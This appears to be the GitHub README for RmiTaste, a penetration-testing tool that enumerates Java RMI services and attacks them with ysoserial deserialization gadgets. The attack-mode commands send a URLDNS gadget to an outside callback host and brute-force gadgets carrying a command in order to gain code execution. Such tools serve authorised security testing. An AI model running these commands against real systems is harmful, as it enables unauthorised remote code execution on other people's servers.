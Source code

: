 <p align="center">
  <img src="assets/rmitastepsd_white.png" width=200 height=300>
</p>

#
![License](https://img.shields.io/badge/license-MIT-lightgrey.svg)
# RmiTaste
 RmiTaste allows security professionals to detect, enumerate, interact and attack RMI services by calling remote methods with gadgets from ysoserial. It also allows to call remote method with specific parameters.
 
### Disclaimer
 RmiTaste was written to aid security professionals in identifying insecure RMI services on systems which the user has prior permission to attack. Unauthorised access to computer systems is illegal and RmiTaste must be used in accordance with all relevant laws. Failure to do so could lead to you being prosecuted. The developers of RmiTaste assume no liability and are not responsible for any misuse or damage caused by this program.

## Building and Running
 Requires openjdk 11.0.3.
 1. Download ysoserial-master-SNAPSHOT.jar and save it in libs_attack directory (https://github.com/frohoff/ysoserial).
 2. Build project using maven:
    ```bash
    mvn package
    ```
 3. Run command:
    ```bash
    java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste -h
    
    
     __________        ._____________                __
     \______   \ _____ |__\__    ___/____    _______/  |_  ____
     |       _//     \|  | |    |  \__  \  /  ___/\   __\/ __ \
     |    |   \  Y Y  \  | |    |   / __ \_\___ \  |  | \  ___/
     |____|_  /__|_|  /__| |____|  (____  /____  > |__|  \___  >
           \/      \/                  \/     \/            \/
     @author Marcin Ogorzelski (mzero - @_mzer0) STM Solutions
    
    Warning: RmiTaste was written to aid security professionals in identifying the
             insecure use of RMI services on systems which the user has prior
             permission to attack. RmiTaste must be used in accordance with all
             relevant laws. Failure to do so could lead to your prosecution.
             The developers assume no liability and are not responsible for any
             misuse or damage caused by this program.
    
    ```
  
## Usage

RmiTaste has 4 modes: conn, enum, attack and call. Each mode has a separate help.
```bash
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste -h
(...)
Usage: <main class> [-h] [COMMAND]
  -h, --help   display this help message
Commands:
  conn    check connection to host
  enum    enumerate RMI service
  attack  attack RMI registry methods
  call    call specific method on RMI remote object
```
### conn mode
Conn mode allows to check if port is RMI service port.
```bash
# Check if 127.0.0.1:1099 is RMI Service
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste conn -t 127.0.0.1 -p 1099
```
### enum mode
Enum mode allows to fetch information about RMI service such as: remote objects names and classes names that remote object implements or extends. If interface implemented by remote object is available in RmiTaste classpath then RmiTaste will print all remote methods that you can call on this remote object.
```bash
# RMI service enumeration
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste enum -t 127.0.0.1 -p 1099
```
### attack mode
Attack mode allows to call remote method with specific gadget chain from ysoserial. Assume that remote object has following methods:
```bash
acc1 [object] [127.0.1.1:38293] 
         implements java.rmi.Remote [interface]
         extends java.lang.reflect.Proxy [class]
         implements m0.rmitaste.example.server.ClientAccount [interface]
                setPin(java.lang.String param0); [method]
                        Parameters: param0;  may be vulnerable to Java Deserialization! [info]
                getBalance(); [method]
                deposit(java.lang.Object param0); [method]
                        Parameters: param0;  may be vulnerable to Java Deserialization! [info]
                withdraw(float param0); [method]
```

```bash
# Call all remote methods with URLDNS gadget as parameter
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste attack -t 127.0.0.1 -p 1099 -g "URLDNS" -c "http://rce.mzero.pl"
```

```bash
# Call acc1:m0.rmitaste.example.server.ClientAccount:deposit method with URLDNS gadget as parameter
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste attack -t 127.0.0.1 -p 1099 -m "acc1:m0.rmitaste.example.server.ClientAccount:deposit" -g "URLDNS" -c "http://rce.mzero.pl"
```


Option "-gen bruteforce" allows to brute force remote method with gadgets from ysoserial. In this example deposit method will be called multiple times with gadgets from ysoserial.
```bash
# Call acc1:m0.rmitaste.example.server.ClientAccount:deposit method with gadgets from ysoserial and command ping 127.0.0.1
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste attack -t 127.0.0.1 -p 1099 -m "acc1:m0.rmitaste.example.server.ClientAccount:deposit" -gen bruteforce -c "ping 127.0.0.1"
```
### call mode
Call mode allows to call specific method on RMI remote object. Assume that remote object has following methods:
```bash
acc1 [object] [127.0.1.1:38293] 
         implements java.rmi.Remote [interface]
         extends java.lang.reflect.Proxy [class]
         implements m0.rmitaste.example.server.ClientAccount [interface]
                setPin(java.lang.String param0); [method]
                        Parameters: param0;  may be vulnerable to Java Deserialization! [info]
                getBalance(); [method]
                deposit(java.lang.Object param0); [method]
                        Parameters: param0;  may be vulnerable to Java Deserialization! [info]
                withdraw(float param0); [method]
```

```bash
# Call m0.rmitaste.example.server.ClientAccount.getBalance method on acc1 remote object
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste call -t 127.0.0.1 -p 1099 -m "acc1:m0.rmitaste.example.server.ClientAccount:getBalance"
```

```bash
# Call m0.rmitaste.example.server.ClientAccount.setPin("1234") method on acc1 remote object
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste call -t 127.0.0.1 -p 1099 -m "acc1:m0.rmitaste.example.server.ClientAccount:setPin" -mp "string=1234"
```

### Examples
Demo server is available <a href="https://github.com/STMSolutions/RmiServerExample">here</a>.

 1. Run demo server.
  
 2. Enumerate target.
  
  ```bash
  root@keyisinyourmind:/media/sf_pentest2/Tools/python/Toolset/Others/RmiTasteTool# java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste enum -t 127.0.0.1 -p 1099
 acc1 [object] [127.0.1.1:42881] 
	 extends java.rmi.server.RemoteObjectInvocationHandler [class]
	 implements java.rmi.Remote [interface]
	 extends java.lang.reflect.Proxy [class]
	 extends java.rmi.server.RemoteObject [class]
	 implements m0.rmitaste.example.server.ClientAccount [interface]
		No methods found. I don't have remote object interface. Give it to me!

 acc2 [object] [127.0.1.1:42881] 
	 extends java.rmi.server.RemoteObjectInvocationHandler [class]
	 implements java.rmi.Remote [interface]
	 extends java.lang.reflect.Proxy [class]
	 extends java.rmi.server.RemoteObject [class]
	 implements m0.rmitaste.example.server.ClientAccount [interface]
		No methods found. I don't have remote object interface. Give it to me!
  ```
 As you can see, RmiTaste needs interface of remote object. During pentests you will have to find this interface. In this example, just copy rmitaste.examples-1.0-SNAPSHOT-all.jar to libs_attack directory.
 Enumerate target again:
  ```bash
 acc1 [object] [127.0.1.1:42881] 
	 extends java.rmi.server.RemoteObjectInvocationHandler [class]
	 implements java.rmi.Remote [interface]
	 extends java.lang.reflect.Proxy [class]
	 extends java.rmi.server.RemoteObject [class]
	 implements m0.rmitaste.example.server.ClientAccount [interface]
		setPin(java.lang.String param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		getBalance(); [method]
		deposit(java.lang.Object param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		withdraw(float param0); [method]

 acc2 [object] [127.0.1.1:42881] 
	 extends java.rmi.server.RemoteObjectInvocationHandler [class]
	 implements java.rmi.Remote [interface]
	 extends java.lang.reflect.Proxy [class]
	 extends java.rmi.server.RemoteObject [class]
	 implements m0.rmitaste.example.server.ClientAccount [interface]
		setPin(java.lang.String param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		getBalance(); [method]
		deposit(java.lang.Object param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		withdraw(float param0); [method]

  ```

## Author
Twitter: <a href="https://twitter.com/_mzer0">@_mzer0</a>


Inspired by: <a href="https://github.com/NickstaDB/BaRMIe.git">BaRMIe</a> and  <a href="https://twitter.com/h0ng10">@h0ng10</a> <a href="https://mogwailabs.de/blog/2019/03/attacking-java-rmi-services-after-jep-290/">article</a>
